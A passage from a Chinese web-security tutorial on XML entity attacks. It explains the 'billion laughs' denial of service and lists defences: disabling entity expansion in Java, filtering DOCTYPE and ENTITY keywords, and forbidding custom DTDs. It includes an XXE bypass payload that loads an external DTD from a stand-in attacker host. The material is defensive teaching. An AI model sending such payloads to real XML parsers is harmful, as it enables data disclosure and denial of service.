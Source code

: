 ```xml
<lolz>&lol9;</lolz>
```

该攻击通过创建一项递归的 XML 定义，在内存中生成十亿个”abc”字符串，从而导致 DDoS 攻击。

原理为：构造恶意的XML实体文件耗尽可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，解析非常慢，造成了拒绝服务器攻击。

# 防御方法

## 禁用外部实体

对于Java来说，直接设置相应的属性值为false即可

```java
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);
```

## 过滤和验证用户提交的XML数据

过滤关键词：`<!DOCTYPE`和`<!ENTITY`，或者SYSTEM和PUBLIC。

可能存在被绕过的情况，如（过滤了`<EMTITY`）Bypass:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE svg SYSTEM "http://vps/xxe.dtd">
<root>
<user>&xxe;</user>
</root>
```

## 不允许XML中含有任何自己声明的DTD

有效的措施：配置XML parser只能使用静态DTD，禁止外来引入；

# 拓展阅读 

[web 安全系列](https://houbb.github.io/2020/08/09/web-safe-00-overview)

# 参考资料

[XXE漏洞学习从入门到放弃](https://www.jianshu.com/p/77f2181587a4)

[XXE 入门到放弃](https://www.anquanke.com/post/id/197423)

[浅谈XXE漏洞攻击与防御](https://thief.one/2017/06/20/1/)

[XXE](https://websec.readthedocs.io/zh/latest/vuln/xxe.html)

* any list
{:toc}